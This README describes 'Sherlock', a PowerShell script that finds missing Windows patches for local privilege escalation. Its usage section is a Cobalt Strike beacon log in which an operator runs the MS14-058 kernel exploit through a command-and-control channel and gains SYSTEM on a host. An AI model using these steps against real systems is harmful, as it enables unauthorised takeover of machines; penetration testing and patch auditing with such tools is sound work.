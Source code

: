 # Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

## Currently looks for:

* MS10-015 : User Mode to Ring (KiTrap0D)
* MS10-092 : Task Scheduler
* MS11-046 : 
* MS11-080 : 
* MS13-053 : NTUserMessageCall Win32k Kernel Pool Overflow
* MS13-081 : TrackPopupMenuEx Win32k NULL Page
* MS14-002 : 
* MS14-058 : TrackPopupMenu Win32k Null Pointer Dereference
* MS15-051 : ClientCopyImage Win32k
* MS15-078 : Font Driver Buffer Overflow
* MS16-016 : 'mrxdav.sys' WebDAV
* MS16-032 : Secondary Logon Handle
* MS16-135 : Win32k Elevation of Privilege
* CVE-2017-7199 : Nessus Agent 6.6.2 - 6.10.3 Priv Esc

## Basic Usage:

```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are Win7-x64\Rasta

beacon> powershell-import C:\Users\Rasta\Desktop\Sherlock.ps1
[*] Tasked beacon to import: C:\Users\Rasta\Desktop\Sherlock.ps1
[+] host called home, sent: 2960 bytes

beacon> powershell Find-MS14058
[*] Tasked beacon to run: Find-MS14058
[+] host called home, sent: 20 bytes
[+] received output:

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Appears Vulnerable

beacon> elevate ms14-058 smb
[*] Tasked beacon to elevate and spawn windows/beacon_smb/bind_pipe (127.0.0.1:1337)
[+] host called home, sent: 105015 bytes
[+] received output:
[*] Getting Windows version...
[*] Solving symbols...
[*] Requesting Kernel loaded modules...
[*] pZwQuerySystemInformation required length 51216
[*] Parsing SYSTEM_INFO...
[*] 173 Kernel modules found
[*] Checking module \SystemRoot\system32\ntoskrnl.exe
[*] Good! nt found as ntoskrnl.exe at 0x0264f000
[*] ntoskrnl.exe loaded in userspace at: 40000000
[*] pPsLookupProcessByProcessId in kernel: 0xFFFFF800029A21FC
[*] pPsReferencePrimaryToken in kernel: 0xFFFFF800029A59D0
[*] Registering class...
[*] Creating window...
[*] Allocating null page...
[*] Getting PtiCurrent...
[*] Good! dwThreadInfoPtr 0xFFFFF900C1E7B8B0
[*] Creating a fake structure at NULL...
[*] Triggering vulnerability...
[!] Executing payload...

[+] host called home, sent: 204885 bytes
[+] established link to child beacon: 192.168.56.105

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```
